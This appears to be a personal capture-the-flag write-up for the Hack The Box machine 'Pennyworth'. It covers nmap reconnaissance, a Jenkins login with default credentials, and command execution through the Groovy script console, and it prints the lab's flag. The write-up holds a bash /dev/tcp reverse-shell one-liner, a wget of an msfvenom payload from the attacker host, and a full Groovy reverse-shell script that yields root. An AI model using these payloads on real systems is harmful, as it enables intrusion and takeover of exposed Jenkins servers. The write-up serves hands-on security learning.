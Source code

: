 # Pennyworth

> 10.129.59.175

## Nmap
```
nmap 10.129.59.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 21:37 EDT
Nmap scan report for 10.129.59.175
Host is up (0.049s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.85 seconds
```

```
nmap -sS -sV -sC -O -p 8080 10.129.59.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 21:39 EDT
Nmap scan report for 10.129.59.175
Host is up (0.049s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.26 seconds
```

## Jetty
> Eclipse Jetty is a Java web server and Java Servlet container. While web servers are usually associated with serving documents to people, Jetty is now often used for machine to machine communications, usually within larger software frameworks.

## Jenkins
- Access the site: `http://10.129.59.175:8080`
- You get a login screen that says, "Welcome to Jenkins!" and asks for username and password.
- Found an nse script here: https://github.com/icarot/NSE_scripts/blob/master/jenkins-info.nse
  - Downloaded and just ran it...
```
nmap --script jenkins-info -p 8080 10.129.59.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 22:05 EDT
Nmap scan report for 10.129.59.175
Host is up (0.049s latency).

PORT     STATE SERVICE
8080/tcp open  http-proxy
| jenkins-info: 
|   Hudson Version: 1.395
|   Jenkins Version: 2.289.1
|   Jenkins Session ID: aa6c090a
|_  Server: Jetty(9.4.39.v20210325)

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
```

Google search: "jenkins default credentials"
- Results: admin:password
- Didn't work. "admin" is a Windows login.
- **root:password** worked and I got in.

In order to get to the Groovy Script CLI page: 
> Jenkins features a [Groovy script console](https://www.jenkins.io/doc/book/managing/script-console/) which allows one to run arbitrary Groovy scripts within the Jenkins controller runtime or in the runtime on agents.
- The Script Console on the controller can be accessed from "Manage Jenkins" > "Script Console" (takes you to: `/cli`). Or by visiting the sub-URL `/script` on your Jenkins instance.
  - The former takes you to a list of "Available Commands," but I could not access the actual CLI.
  - Using the `/script` in the URL took me right to the CLI. 

----
> respawn: 10.129.212.139

I tried some arbitrary commands in the CLI: 
- `which bash` : gave me an error
- `ifconfig`   : gave me an error
- And so I Googled for help...

[How to Execute Commands in Groovy](https://groovy-lang.gitlab.io/101-scripts/basico/command_local-en.html)
- You need to use the `execute()` method.
- The following found [here](https://stackoverflow.com/questions/2701547/how-to-make-system-command-calls-in-java-groovy): 
  - The simplest way to invoke an external process in Groovy is to use the execute() command on a string. For example, to execute maven from a groovy script run this:
```
"cmd /c mvn".execute()
# if you want to capture the output of the command and maybe print it out, you can do this:
print "cmd /c mvn".execute().text
# the 'cmd /c' at the start invokes the Windows command shell. Since mvn.bat is a batch script you need this. For Unix you can invoke the system shell.
```

### Some stuff I tried:
```
"cat /etc/passwd ".execute().text          # that printed the /etc/passwd file
"ifconfig".execute().text                  # that showed me network info
"which bash".execute().text                # result: /usr/bin/bash
"bash --version".execute().text            # result: version 5.0.17(1)-release
"ping -c 5 10.129.212.139".execute().text  # got all pings returned okay
```

Therefore I can execute arbitrary system commands on the box as root. 

## Pwn Attempt (and FAIL)
- The famous bash one-liner
### Set up a listener on my local/attack machine: 
```
nc -nvlp 1234     # TCP listener
nc -nvlup 1234    # UDP listener
```

### Executed the Bash One-Liner: 
```
/bin/bash -c 'bash -i &> /dev/tcp/10.10.14.170/1234 0>&1'
```
Did not work. Tried the following and nothing worked: 
```
# on the local machine
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.170 LPORT=1234 -f elf > shell-x64.elf
python3 -m http.server 80
# on the remote machine
"wget http://10.10.14.170/shell-x64.elf".execute().text
```

The wget executed but I could not get the shell executable to run on the target.
- Apparently in Groovy you need to create a cmd process that will execute the file.


## Walkthrough
Jenkins exposures (should have found these via a Google search):
- [A handbook including multiple ways of gaining Jenkins RCE's](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)
- [A repository similar to the above, including links to scripts and tools](https://github.com/gquere/pwn_jenkins)

Since it only executes the Groovy commands, we will need to create a payload in Groovy to execute the reverse shell connection.
- In order to do that, we will need a specially crafted payload, which we can find in the following GitHub [cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).
- He used the one here but cleaned it up a little by putting separate commands on each line (NOTE: you need to take out my #comments before running in Groovy).
```
String host="{your_IP}";    # Specify the IP address for the target to connect back to
int port=1234;              # Specify the port on which the attacker will listen on
String cmd="/bin/bash";     # Specify the shell type the attacker expects

# The rest of the script will instruct the target to create a cmd process which will initialize a connection request to the provided host and port (us, in this case). 
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And that's it. I'm in. 

```
/bin/bash -i
root@pennyworth:/#

root@pennyworth:/# find / -name "flag.*" 2>/dev/null
find / -name "flag.*" 2>/dev/null
/root/flag.txt

root@pennyworth:/# cat /root/flag.txt
cat /root/flag.txt
9cdfb439c7876e703e307864c9167a15
```

![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/c26f2bc2-fb84-4f06-be09-44c8cbcc8fd3)

